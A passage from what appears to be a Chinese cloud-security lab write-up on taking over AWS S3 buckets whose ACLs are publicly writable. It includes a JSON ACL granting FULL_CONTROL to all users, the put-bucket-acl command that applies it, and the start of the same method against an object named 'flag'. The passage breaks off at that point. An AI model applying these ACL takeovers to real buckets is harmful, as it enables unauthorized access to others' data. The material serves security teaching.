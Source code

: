 查询官方文档，内容如下：

![img](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-02-22/1645499390-374501-image.png)

![img](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-02-22/1645499395-1106-image.png)

通过官方文档，可以分析出这个策略表示任何人都可以访问、写入当前 Bucket 的 ACL

那么也就是说如果我们把权限修改为 FULL_CONTROL 后，就可以控制这个 Bucket 了，最后修改后的策略如下：

```json
{
    "Owner": {
        "ID": "d24***5"
    },
    "Grants": [
	{
            "Grantee": {
                "Type": "Group", 
                "URI": "http://acs.amazonaws.com/groups/global/AllUsers"
            }, 
            "Permission": "FULL_CONTROL"
        } 
    ]
}
```

```sh
aws s3api put-bucket-acl --bucket teamssix --access-control-policy file://acl.json
```

![img](https://wiki.teamssix.com/img/1650006554.png)

再次尝试，发现就可以列出对象了

![img](https://wiki.teamssix.com/img/1650006615.png)

# Object ACL可写

读取 Object 时提示被禁止

![img](https://wiki.teamssix.com/img/1650006998.png)

查看目标 Object 策略发现是可读的，且内容如下：

```bash
aws s3api get-object-acl --bucket teamssix --key flag
```

![img](https://wiki.teamssix.com/img/1650007025.png)

这个策略和上面的 Bucket ACL 策略一样，表示任何人都可以访问、写入当前 ACL，但是不能读取、写入对象

将权限修改为 FULL_CONTROL 后，Object ACL 策略如下：
